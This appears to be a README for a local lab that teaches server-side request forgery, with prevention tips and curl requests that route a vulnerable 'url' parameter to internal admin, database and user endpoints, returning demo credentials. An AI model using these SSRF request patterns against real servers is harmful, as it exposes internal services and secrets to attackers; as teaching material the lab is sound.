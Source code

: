 # What is SSRF?

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network.
Typical exploitation of a server-side request forgery vulnerability

In a typical SSRF scenario, an external attacker who wants to access an internal server can’t use direct requests because they would be blocked by the firewall. Instead, malicious actors can exploit an SSRF vulnerability to make their attack via a vulnerable web server:


![SSRF](ssrf.png)


### Steps :
* The attacker sends a forged request to a web server that is vulnerable to SSRF and resides on the same internal network as the target server.
* The vulnerable web server sends the attacker-controlled request to the victim’s server, bypassing the firewall.
* The victim’s server responds to the web server with the requested data.
If the specific SSRF vulnerability permits it, the data is sent back to the attacker. In most cases, the attacker will need to exfiltrate or infer this information by other means (out-of-band).


## Why is server-side request forgery dangerous?
While many web vulnerabilities directly affect the target system, SSRF allows attackers to use the target as an intermediary that passes requests to a third system. So while an SSRF attack might not be damaging in itself, it can provide malicious hackers with access to internal systems that were never supposed to be accessible from the Internet. There are several reasons why this is dangerous.

### Prevent:
To prevent SSRF vulnerabilities in web applications, it is recommended to adhere to the following guidelines:
* Use a whitelist of allowed domains, resources and protocols from where the web server can fetch resources.
* Any input accepted from the user should be validated and rejected if it does not match the positive specification expected.
* If possible, do not accept user input in functions that control where the web server can fetch resources.

## Example

We have created three service for demo purpose

1. **public-web-service** : This service is exposed on internet
2. **internal-user-service** : This service is not exposed to internet but the resources can be accessible by **public web server**
3. **internal-admin-service** : This service is not exposed to internet. Attacker will try to access this service and retrive sensitive data by ssrf attack.

![Private server](SSRF_new.jpg)

To explain the impact, 
consider that the server we’re running with our (IP address 10.0.0.3) is within a network with another server: internal-admin-service (IP address 10.0.0.2). 
The internal-admin-service server serves a site on port 8083 without any authentication. 
The router (10.0.0.1) routes all the internal traffic to the internet. 
For this example, there aren’t any firewall rules for traffic between internal servers. 

The internal-admin-service server cannot be reached from the internet. The public web server can be reached at web-server.com.

We know that our web server, 10.0.0.3, processes the requests we send to it. 
Now let’s see what happens when we request the internal-admin-service server through the web server:

# Attack

**Attacker will try to scan multiple ports via changing port number in url like below and he founds `8083` is reachable port.
He will try to get `adminDetail` using below endpoint.**


### Admin Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/adminDetail
```

```json
{'username':'admin','password':'OhMyGod@123'}
```

### Db Sensitive Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/dbDetail
```

```json
{'dbName':'controller','host':'10.0.1.35','username':'root', 'password':'XSuper@#12345', 'port':'5432'}
```

Since the public web server can actually reach 10.0.0.2, the internal internal-admin-service server, it’ll send an HTTP request to it and then reflect the response to the outside world. 
You could compare it to a web proxy, but abused to proxy external traffic to internal services and vica versa.


In a internal user service, we have a userdetails endpoint which will provide user related basic information.

### Get User Information
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userDetail/0
```
### Response
```json
{'name':'User-0','id':'0'}
```

### Get User Address
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userAddress/0
```

### Response
```json
{'address':'Ahmedabad, India','id':'0'}
```

curl localhost:8080/management/mappings

**Useful Links**
https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf


